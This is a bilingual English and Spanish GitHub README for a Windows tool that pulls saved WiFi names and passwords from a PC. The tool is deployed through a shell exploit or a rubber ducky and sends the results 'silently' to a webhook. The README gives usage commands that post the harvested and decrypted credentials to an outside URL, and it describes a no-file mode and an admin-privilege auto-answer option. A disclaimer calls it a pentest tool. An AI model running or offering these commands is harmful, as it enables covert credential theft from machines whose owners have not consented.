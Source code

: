 # WIFI_Extractor

*DISCLAIMER*

This is not made for illegal or malicious purposes, I consider it like a post-exploitation tool with legal authority before of the use in whatever location you are doing your pentest to check weak and reutilization of passwords, I'm not responsible of any malicious acts that you may do.

Esto no está hecho con fines ilegales o maliciosos, lo considero como una herramienta de post-explotación con autoridad legal antes del uso en cualquier lugar donde esté haciendo su pentest para verificar la debilidad y la reutilización de contraseñas, no soy responsable de cualquier acto malicioso que puedas hacer.

if you run it with python you might need this requeriments

Si lo ejecutas con python tal vez podrias necesitar estos requerimientos


pip install click

pip install elementpath

pip install requests

Script to extract WIFI passwords from a pc uploading it remotely (shell exploit) and send it to a url "silently"(webhook without leaving files 
and also can be used offline, physically (rubber ducky)

Script para extraer contraseñas WIFI de un pc subiendolo remotamente(shell exploit) y enviarlo a una url "silenciosamente"(webhook) 
Tambien se puede usar offline, físicamente con un pendrive(rubber ducky)


Usage: E_WIFI.exe [OPTIONS]

Options:
  -u, --url TEXT      Webhook/POST URL
  -n, --no-txt        No crea el archivo txt | Doesn't create the txt file
  -v, --version       Imprime la version | Prints the version
  -p, --print-output  Muestra la salida en la terminal | Shows the output in
                      the terminal
  --help              Show this message and exit.
  

Offline

python3 E_WIFIoffline.py

CMD or Powershell E_WIFIoffline.exe | ./E_WIFIoffline.exe (You can also double click it)

Creates a txt with the WIFI's ssid and passwords stored in the local machine
Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

Online

Usages

default usage
python3 E_WIFI.py

CMD or Powershell E_WIFI.exe | ./E_WIFI.exe

Creates a txt with the WIFI's ssid and passwords stored in the local machine
Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

Another Example

python3 E_WIFI.py -u https://webhook.site/yoururl -n -p 
CMD or Powershell E_WIFI.exe | ./E_WIFI.exe -u https://webhook.site/yoururl -n -p

type --help for more detailed info

PD: THE TXT IS CREATED BY DEFAULT -n TURN IT OFF
    EL TXT SE CREA POR DEFECTO -n APAGA LA CREACION

V1.3

Quick Example of the new function (in the following hours I will update a more detailed one)
Ejemplo rapido de la nueva funcion (en las siguientes horas actualizare con unos ejemplos mas detallados)

E_WIFI.exe -p -a -u webhooksite...
![ejemplo nueva funcion](https://user-images.githubusercontent.com/74321905/225491588-1b1c1de4-0fa2-4981-8aa7-317983d13d6a.png)

"-a" will answer automatically with "Y" because it indicates that the current console is with admin privileges at least if you don't put this option you will need to put manually the option
"-a" respondera automaticamente con "Y" porque indica que la consola actual tiene al menos privilegios de administrador, si no pones esta opcion tendras que responder manualmente

You will see that in the webhook it will be sent with the decrypted password
Podras ver en el webhook que sera enviado con la contrasena desencriptada
![ejemplo nueva funcion2](https://user-images.githubusercontent.com/74321905/225492226-b03d05e1-4f79-4f88-b872-04df838bc34d.png)


Also you can use the E_WIFI to extract the keys and then manually use Wdecryptor with a opened system authority cmd
Tambien podras usar E_WIFI para extraer las keys y luego manualmente usar wdecryptor con una cmd abierta con system authority

![ejemplo nueva funcion3](https://user-images.githubusercontent.com/74321905/225493385-921a6a0f-230c-4a2f-a83c-fa020282db92.png)

it will be saved in a "decrypted.txt" file also with the following format "Encrypted Key : Decrypted"
tambien se guardara en un archivo "decrypted.txt" con el siguiente formato "Key Encriptada : Descriptada"
